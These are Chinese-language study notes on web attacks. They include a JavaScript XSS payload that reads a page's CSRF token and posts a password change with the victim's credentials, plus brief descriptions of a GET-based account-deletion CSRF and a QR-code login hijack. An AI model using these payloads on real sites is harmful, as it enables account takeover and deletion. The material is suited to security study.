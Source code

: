 xss无法获取cookie造成危害的时候，尝试csrf，通过写payload获取csrftoken
ex.
```
var reg = new XMLHttpRequest();
reg.onload = reqListener; // 确保变量名一致
reg.open("POST", "https://test.com/profile/password", true);
reg.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
reg.withCredentials = true;
reg.send("user[password]=passwordtest&userpassword_confirmation=passwordtest&_csrf=" + document.querySelector("head > meta:nth-child(14)").content);

function reqListener() {
    var data = this.responseText;
    alert(data);
}
```

账号注销案例
ex.
```
POST /applications/ChangeUserInfo HTTP/1.1 

{
"username":""
"head":""
}
```
直接改为get请求，相当于直接没有参数，发给受害者就直接删除了账号.

二维码csrf
二维码登陆流程
1. 服务器生成token，并且一直请求查看token被谁用了
2. 用户扫码确认登陆，通过cookie等方式把自己账号和该token绑定
3. 浏览器识别到token被使用，于是登陆到该账号
如何利用？
制作确认登陆那一步的数据包的poc发给受害者，让他和token绑定，然后我们的浏览器就登陆到受害者的账号了
![[c4a6ec97f16ba311b8fce47d55bfd34.jpg]]
